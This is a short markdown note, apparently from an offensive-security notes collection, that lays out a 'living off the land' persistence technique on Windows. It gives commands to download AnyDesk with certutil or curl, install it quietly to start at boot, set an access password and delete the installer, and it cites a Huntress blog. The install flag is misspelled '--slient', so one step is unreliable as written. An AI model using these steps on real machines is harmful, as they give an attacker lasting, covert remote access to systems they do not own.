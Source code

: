 # Living off the Land

## 01 - Download AnyDesk Installer

```
C:\> CertUtil.exe -urlcache -split -f https://download.anydesk.com/AnyDesk.exe %LOCALAPPDATA%\Temp\Anydesk.exe

C:\> curl.exe -o %LOCALAPPDATA%\Temp\Anydesk.exe https://download.anydesk.com/AnyDesk.exe
```

## 02 - Install AnyDesk

```
C:\> %LOCALAPPDATA%\Temp\Anydesk.exe --start-with-win --slient --install %LOCALAPPDATA%\AnyDesk
```

## 03 - Set Password

```
C:\> echo <password> | %LOCALAPPDATA%\AnyDesk\AnyDesk.exe --set-password
```

## 04 - Delete Anydesk

```
C:\> del %LOCALAPPDATA%\Temp\anydesk.exe
```

---
## References

### Backlinks

- [[03 - Malware Development/Techniques/Maintaining Access/Persistence/Windows/Remote Monitoring and Management/AnyDesk]]

### Huntress

- [Huntress: RATs! Remote Management Software from the Hacker’s Perspective](https://www.huntress.com/blog/rats-remote-management-software-from-the-hackers-perspective)